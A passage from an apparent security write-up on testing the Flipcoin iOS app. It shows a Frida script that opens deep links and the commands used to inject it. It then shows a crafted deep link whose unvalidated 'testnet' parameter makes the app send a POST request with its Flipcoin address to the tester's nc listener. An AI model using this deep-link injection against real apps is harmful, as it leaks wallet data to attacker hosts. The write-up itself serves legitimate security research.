 > When this script is injected into a running iOS app using Frida, it first checks if the Objective-C runtime is available. Then, it accesses `**LSApplicationWorkspace**` to interact with installed apps and defines execURL, a function that opens deep links using `**_openSensitiveURL_withOptions__**`. Finally, it makes `**_execURL_**` available globally, so it can be run directly from the Frida.

With this in place, we can execute a deep link inside Frida by running:  
`**_execURL("flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=1&testnet=_**[**_http://192.168.18.177");_**](http://192.168.18.177/)`

![](https://miro.medium.com/v2/resize:fit:875/1*gam-cZi7TZokHZVRg9PrBA.png)Executing Deep Link inside Frida

> If you’re not yet familiar with Frida, the `**_frida-ps -U_**` command is used to enumerate running processes on an iOS device (make sure your device is connected to the host machine running Frida).
> 
> To make things easier, we can apply a filter using grep, which is available on macOS and Linux-based OS, to refine the results:  
> `**_% frida-ps -U | grep Flipcoin_**`
> 
> Once we have the process ID of the target application, we can proceed with:  
> `**_% frida -U -p (process_ID) -l execURL.js_**`
> 
> Please take a note that `**execURL.js**` refers to the modified script we created earlier.

**5.6.2. Observing the Application’s Response and Found an Unrestricted Testnet Parameter Allowing Arbitrary URLs  
**At first, when sending a request with `**_amount=1_**` (the default value from the QR code) and setting `**_testnet_**` to our host’s IP address, we encountered a message stating that we didn’t have enough Flipcoins to complete the transaction.

![](https://miro.medium.com/v2/resize:fit:875/1*G-DSndXjElzbrDYEka5LsA.png)Test amount = 1![](https://miro.medium.com/v2/resize:fit:313/1*_CrHuGTBrtk_i-34v7u9Lg.png)Don’t have enough Flipcoins

To explore further, we modified the amount to `**_0.1_**` and `**_0.2_**`, considering that the in-app balance was `**_0.3654_**`. This time, the app redirected us to the fund transfer interface.

![](https://miro.medium.com/v2/resize:fit:875/1*_-pwVEE6hePO8ffgNzb8dg.png)Test amount = 0.1 or 0.2![](https://miro.medium.com/v2/resize:fit:375/1*owSG9COTk0xLzIqNGG4NMQ.png)The Application Redirects us to the Transaction Page.

More interestingly, we noticed that the application sent a request to the `**_nc_**` listener running on our host.

![](https://miro.medium.com/v2/resize:fit:875/1*L-IGGSBQHI_H4JklsHJvig.png)Response from the nc

This confirms the assumption that the `**_testnet_**` parameter accepts a URL. Moreover, it appears that no whitelist is enforced on this parameter, allowing arbitrary URLs to be provided.

**The best part?** When the app executes a deep link pointing to our host via `**_testnet_**`, it actually sends a request — one that includes what seems to be the Flipcoin address used by the application.

_By the way, we can also use an interceptor tool like Burp Suite to inspect the request._

![](https://miro.medium.com/v2/resize:fit:875/1*vN2N1pk6Vm5N_5pzNG9EZA.png)Response in the Interceptor Tools

> So, in summary, when we access a **deep link** that includes a URL, the application indirectly **converts it into a POST request** to the URL specified in the `**_testnet_**` parameter.
